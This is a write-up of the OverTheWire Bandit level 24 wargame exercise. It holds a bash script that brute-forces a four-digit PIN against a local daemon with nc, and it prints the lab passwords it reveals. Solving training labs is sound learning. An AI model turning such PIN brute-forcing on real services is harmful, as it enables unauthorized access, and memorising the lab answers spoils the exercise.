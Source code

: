 # Bandit Level 24 → Level 25

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.



```
ssh bandit24@bandit.labs.overthewire.org -p 2220
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

nano /tmp/brute_forcing.sh
#! /bin/bash
bandit24_pass="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
for i in {0..9}{0..9}{0..9}{0..9}
do
	echo $bandit24_pass' '$i >> /tmp/combinations.txt
done
cat /tmp/combinations.txt|nc localhost 30002|tail

/tmp/brute_forcing.sh
/*
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
*/
```

